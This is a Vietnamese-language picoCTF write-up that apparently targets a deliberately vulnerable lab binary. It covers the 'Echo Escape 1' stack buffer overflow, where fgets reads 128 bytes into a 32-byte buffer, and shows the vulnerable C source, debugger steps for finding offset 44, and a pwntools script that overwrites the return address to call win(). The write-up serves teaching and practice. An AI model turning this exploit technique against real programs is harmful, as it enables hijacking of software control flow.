







# Writeup: Echo Escape 1 - picoCTF 2026

**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Author:** YAHAYA MEDDY  

## 1. Mô tả Challenge

Lập trình viên đã rút ra bài học từ các hàm nhập dữ liệu không an toàn và cố gắng bảo mật chương trình bằng cách sử dụng fgets(). Tuy nhiên, không may là họ đã sử dụng nó không đúng cách. Bạn có còn cách nào để đọc được flag không?


## 2. Tải file binary và chuẩn bị

Tải về file source code và file binary mà đề bài đã cho
Sử dụng `file ./ten_file` để xem cấu hình và sử dụng checksec để xem file binary gồm có những lớp bảo vệ nào


Quá là tuyệt!
Sau khi kiểm tra bằng checksec ta thấy rằng file này không có lớp bảo vệ PIE nghĩa là địa chỉ của hàm win sẽ cố định trong khi chạy chương trình


Tiếp theo ta cung cấp quyền chạy file binary như một chương trình bằng cách sử dụng câu lệnh ``chmod +x tên file``


Sau đó chạy thử xem chương trình hoạt động như thế nào bằng cách dùng netcat để kết nối với server cho sẵn

 

hoặc chạy local trên máy bằng lệnh ``./tên_file``



Sau khi chạy chương trình in ra dòng chữ 'Enter the secret key:' ta nhập thử một chuỗi bất kì



Chương trình in ra "you entered :," kết hợp với chuỗi bạn ta vừa điền 

## 3. Phân tích Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "r");
    if (!fp) {
        perror("[!] Could not open flag.txt");
        exit(1);
    }

    char flag[128];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fflush(stdout);
    fclose(fp);
}

void vuln() {
    char buf[32];  

    printf("Enter the secret key: ");
    fflush(stdout);

    fgets(buf, 128, stdin);

    printf("You entered:, %s\n", buf);
}

int main() {
    vuln();
    puts("Goodbye!");
    return 0;
}
```
Sau khi đọc và phân tích ta có thể thấy được dấu hiệu của lỗi buffer overflow(tràn bộ đêm ) trong chương trình 

Mặc dù fgets được coi là an toàn vì nó có giới hạn số ký tự, nhưng ở đây lập trình viên đã thiết lập giới hạn sai:

- Kích thước thực tế của buf là 32.

- Giới hạn cho phép của fgets là 128.
Vậy chuyện gì sẽ xảy ra khi bạn điền quá 32 ký tự?

- Ký tự 1 đến 32: Nằm gọn trong biến buf.

- Ký tự 33 đến 40 (khoảng đó): Sẽ ghi đè lên Saved EBP.

- Các ký tự tiếp theo: Sẽ ghi đè trực tiếp lên Return Address.

## 4. Debug với pwndbg

Ta sử dụng pwndbg để tìm kiếm offset và tìm kiếm địa chỉ hàm win

Ta sử dụng pwndbg để tìm kiếm offset và tìm kiếm địa chỉ hàm  ```win```



***Địa chỉ hàm win ở đây là: 0x8049276***


## 5. Tìm Offset đến Return Address

Đầu tiên tạo một pattern có độ dài dài hơn độ dài cho phép của chương trình ở đây tôi lấy 200 bằng câu lệnh cyclic



Sau đó chạy chương trình và điền đoạn pattern đấy vào 


Chương trình đã bị crash và in ra màn hình phân tích của gdb 
Ta lấy giá trị của hàm EIP để ính offset bằng câu lệnh ``cyclic -l giá trị của EIP`` như có thể thấy ở đây là `0x6161616c `



***Offset ta tìm được chính là 44***

## 6. Viết Exploit Script
Đến đoạn hay nhất rồi chính là viết payload để lấy flag

```python
from pwn import *
p = remote("dolphin-cove.picoctf.net", PORT)
#p = process('./0vuln') # CHẠY TEST LOCAL
offset = 44
win_addr = 0x8049276
p.recvuntil('Enter the secret key: ')
payload = b"A" * offset + p32(win_addr)
p.sendline(payload)
p.interactive()
```
Giải thích qua một chú về payload

```p.recvuntil('Enter the secret key: ')``` đợi cho đến khi chương trình hiện ra dòng 'Enter the secret key: ' rồi mới bắt đầu truyền payload

```payload = b"A" * offset + p32(win_addr)```

- ``b"A"``: Chữ cái 'A' được viết dưới dạng byte.

- ``offset``: Là con số chính xác mà bạn đã tính toán được từ GDB 

    Mục đích: Đây là lượng dữ liệu "rác" dùng để lấp đầy toàn bộ vùng nhớ từ biến buf, ghi đè qua EBP và dừng lại ngay trước ngưỡng của Return Address.
- ``win_addr``: Là địa chỉ bộ nhớ của hàm ``win()`` ta vừa tìm đưuọc ở trên

- ``p32()``: Nếu bạn nhập thủ công 0x080491a2, máy tính sẽ hiểu sai. Hàm p32() sẽ tự động chuyển số đó thành chuỗi byte đúng định dạng mà CPU có thể đọc được (ví dụ: \xa2\x91\x04\x08)

```p.sendline(payload)``` dùng để chuyền payload vào chương trình 

## 7. Thực thi file payload của bạn để lấy flag

Bây giờ ta chỉ cần thực thi file payload và lấy flag thôi


